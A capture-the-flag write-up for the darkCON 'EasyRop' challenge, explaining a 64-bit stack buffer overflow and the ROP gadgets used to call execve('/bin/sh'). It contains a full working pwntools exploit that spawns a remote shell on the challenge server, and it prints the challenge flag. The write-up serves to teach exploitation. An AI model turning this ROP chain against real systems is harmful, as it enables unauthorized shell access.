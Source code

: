 ## EasyRop - Writeup

![challenge description](./chall_description.png)<br>
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

Now I thought about my objective:
Getting a shell

What do we have to do so:
	1.Write "/bin/sh" somewhere in memory
	2.make a syscall or call system with the first parameter being the 
	  location of the string, and the two next parameters being just anything 

The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:

\[+] Gadget found: 0x4012d3 syscall 							; making the syscall
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory 
\[+] Gadget found: 0x40f4be pop rsi ; ret 					; controlling the rsi register
\[+] Gadget found: 0x4175eb pop rax ; ret 					; controlling rax
\[+] Gadget found: 0x40191a pop rdi ; ret 					; ...
\[+] Gadget found: 0x40f4be pop rsi ; ret 
\[+] Gadget found: 0x40181f pop rdx ; ret


## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)

Well done! 
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
